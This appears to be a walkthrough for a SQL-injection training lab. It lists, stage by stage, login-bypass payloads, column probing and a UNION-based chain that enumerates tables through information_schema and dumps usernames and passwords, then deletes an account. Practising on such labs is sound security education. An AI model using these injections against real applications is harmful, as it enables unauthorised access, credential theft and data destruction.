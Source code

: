 # Walkthrough document

## stage1
raw sqli in username: a' or 1=1 -- 

## stage2
raw sqli in password: a' or 1=1 -- 

## stage3
a' (or 1=1 and username="admin")) -- 
a' or 1=1) order by username desc -- 

## stage4
register and login
sqli in search: 
order by 4
union select database(), 'a', 1, 1 -- 
union select table_name, 'a', 1, 1 from information_schema.tables where schema_name="sqli_training" -- 
union select column_name, 'a', 1, 1 from information_schema.tables where table_name="harry_users" -- 
union select username, password, 1, 1 from harry_users -- 
login as Voldemort and delete it


## References

- SQL Injection Cheat Sheet - http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
